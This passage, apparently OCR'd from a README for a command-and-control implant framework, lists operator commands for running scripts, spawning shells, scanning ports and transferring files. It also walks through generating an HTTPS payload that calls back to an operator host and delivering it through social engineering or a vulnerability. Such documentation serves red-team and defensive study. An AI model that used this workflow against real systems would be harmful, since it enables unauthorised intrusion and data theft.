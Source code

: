 16. **Execute a script on the target system**:
    ```bash
    execute <SCRIPT_PATH>
    ```

17. **Spawn a new shell on the target system**:
    ```bash
    spawn <SHELL_TYPE>
    ```

18. **Check the implant's status and configuration**:
    ```bash
    status
    ```

### Example Workflow

1. **Generate a payload**:
   ```bash
   generate --https --host 192.168.1.10 --port 443 --save payload.exe
   ```

2. **Launch the payload on the target system** (e.g., by using social engineering or a vulnerability).

3. **List active sessions**:
   ```bash
   sessions
   ```

4. **Interact with the active session**:
   ```bash
   use 1
   ```

5. **Perform post-exploitation activities** (e.g., uploading/downloading files, executing commands):
   ```bash
   whoami
   upload C:\local\file.txt C:\remote\file.txt
   download C:\remote\file.txt C:\local\file.txt
   ```

### Useful Built-in Commands

1. **Port scan**:
   ```bash
   run portscan <TARGET_IP> <PORT_RANGE>
   ```

2. **Search for files**:
   ```bash
   run search -d <DIRECTORY> -p <PATTERN>
   ```

3. **Gather system information**:
   ```bash
   run sysinfo
   ```
